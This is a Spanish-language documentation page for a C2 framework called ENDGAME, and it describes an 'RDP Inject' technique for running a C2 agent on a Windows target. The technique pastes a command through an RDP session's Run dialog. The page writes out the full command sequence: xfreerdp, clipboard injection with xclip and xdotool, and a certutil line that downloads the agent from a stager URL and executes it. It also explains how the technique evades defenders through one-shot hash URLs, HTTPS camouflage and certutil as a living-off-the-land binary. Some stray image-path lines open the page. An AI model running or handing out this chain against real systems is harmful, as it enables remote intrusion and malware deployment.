



Internal Pentest · RDP Inject
Ejecución de agente vía
escritorio remoto (RDP Inject)
Técnica de entrega de agente que usa exclusivamente una sesión RDP activa para ejecutar código en el objetivo — sin SMB, sin WinRM, sin privilegios de administrador.
Requiere: acceso RDP (Pwn3d!)
Sin admin local necesario
LOLBin — certutil
Cómo funciona
① xfreerdp
Sesión RDP real
Abre una ventana visible del escritorio remoto en el atacante
② xdotool
Win+R → Run
Envía atajos de teclado a la ventana RDP para abrir el diálogo Ejecutar
③ xclip + Ctrl+V
Portapapeles → pega
El payload va al portapapeles. xdotool type elimina las barras invertidas — el pegado las conserva
④ certutil
Descarga y ejecuta
LOLBin nativo de Windows: descarga el agente del stager y lo ejecuta en memoria
¿Por qué el portapapeles y no xdotool type?
xdotool type interpreta el texto carácter a carácter a través del protocolo X11 y elimina silenciosamente las barras invertidas (\). Las rutas de Windows como C:\Windows\Temp\svc.exe quedan truncadas. La solución es copiar el comando completo al portapapeles del sistema con xclip y pegarlo mediante Ctrl+V — el protocolo de portapapeles de RDP transporta el texto sin modificarlo.
Prerequisitos
Antes de lanzar RDP Inject necesitas:
- Credencial con Pwn3d! vía RDP — validada en la pestaña Validate del panel Internal Pentest. El usuario no necesita ser administrador local.
- Stager activo con el payload — el servidor de staging del C2 debe estar corriendo y el agente compilado subido a él.
- Listener activo — el C2 server debe tener un listener escuchando (HTTP, HTTPS o mTLS) en la IP/puerto configurados en el payload.
- xfreerdp, xdotool y xclip instalados — el script de instalación de ENDGAME (
install.sh) los instala automáticamente.
Flujo paso a paso
1
ENDGAME C2 — Payloads

Transporte HTTPS — el agente conecta al listener de puerto 443, indistinguible de tráfico web cifrado.
2 IPs detectadas — el C2 detecta automáticamente las interfaces disponibles; selecciona la que llega al objetivo.
→ Stage — sube el EXE al servidor de staging del C2 y genera una URL hash única (no predecible).
2
ENDGAME C2 — Stager

Hash URL — cada archivo staged tiene un path único. Reemplaza el servidor Python estático que servía rutas predecibles.
Contador de descargas — muestra cuántas veces certutil ha descargado el payload.
One-shot — opción para que la URL expire tras la primera descarga.
3
ENDGAME C2 — Internal Pentest · RDP Inject

Staging URL — aquí pegas la URL copiada del paso 2. El campo Remote Path controla dónde se guarda el EXE en el objetivo (
C:\Windows\Temp\svc.exe por defecto).Upload+Exec — combina la apertura de sesión RDP, la inyección del comando y la ejecución del agente en un único botón.
Resultado — el agente aparece en la pestaña Agents con
transport = https pocos segundos después.Bajo el capó — qué ejecuta ENDGAME
Secuencia de comandos generada automáticamente
① Sesión RDP
Ventana visible en DISPLAY:0 del atacante
DISPLAY=:0 xfreerdp /v:<ip> /d:<dominio> /u:<usuario> /p:<pass> /cert:ignore /w:800 /h:600
② Portapapeles
Comando con rutas Windows — barras invertidas intactas
printf '%s' 'cmd /c certutil -urlcache -split -f <stager_url> C:\Windows\Temp\svc.exe && C:\Windows\Temp\svc.exe' | DISPLAY=:0 xclip -selection clipboard
③ Win+R → pegar
Abre Ejecutar y pega desde portapapeles
xdotool key --window $WID super+r && sleep 1 && xdotool key --window $WID ctrl+v
④ Enter + limpieza
Ejecuta certutil y cierra la sesión RDP
xdotool key --window $WID Return && sleep 10 && kill $XPID
certutil como LOLBin —
certutil.exe es una herramienta de gestión de certificados incluida en todas las versiones de Windows desde Vista. Su capacidad de descargar archivos vía HTTP/HTTPS la convierte en un vector de descarga nativo (Living Off The Land Binary) que evita la necesidad de transferir herramientas externas y es habitual en entornos donde Defender o el EDR bloquean PowerShell WebClient o Invoke-WebRequest.